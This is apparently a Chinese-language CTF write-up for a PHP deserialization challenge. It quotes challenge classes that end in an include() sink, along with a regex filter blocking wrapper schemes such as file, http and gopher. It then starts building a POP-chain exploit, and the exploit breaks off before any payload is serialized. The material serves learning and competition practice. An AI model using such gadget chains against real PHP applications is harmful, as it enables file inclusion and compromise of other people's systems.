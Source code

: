 ```php

    public function __wakeup(){
        if(preg_match("/file|ftp|http|https|gopher|dict|\.\./i", $this->page)) {
            echo "You can Not Enter 2022";
            $this->page = "index.php";
        }
    }
}

class Try_Work_Hard{
    protected  $var;
    public function append($value){
        include($value);
    }
    public function __invoke(){
        $this->append($this->var);
    }
}

class Make_a_Change{
    public $effort;
    public function __construct(){
        $this->effort = array();
    }

    public function __get($key){
        $function = $this->effort;
        return $function();
    }
}
/**********************Try to See flag.php*****************************/
```

也是一个比较简单的反序列化

```php
if(preg_match("/file|ftp|http|https|gopher|dict|\.\./i", $this->page))
```

这里把**$this->page**当成字符串了，所以可以触发**__toString**，下面的链子就很简单了

pop

```php
<?php

class Road_is_Long{
    public $page;
    public $string;

}

class Try_Work_Hard{
    public  $var;

}

class Make_a_Change{
    public $effort; //这里把protected改成了public便于赋值

}

$a=new Road_is_Long();
$b=new Road_is_Long();
$c=new Try_Work_Hard();
$d=new Make_a_Change();
```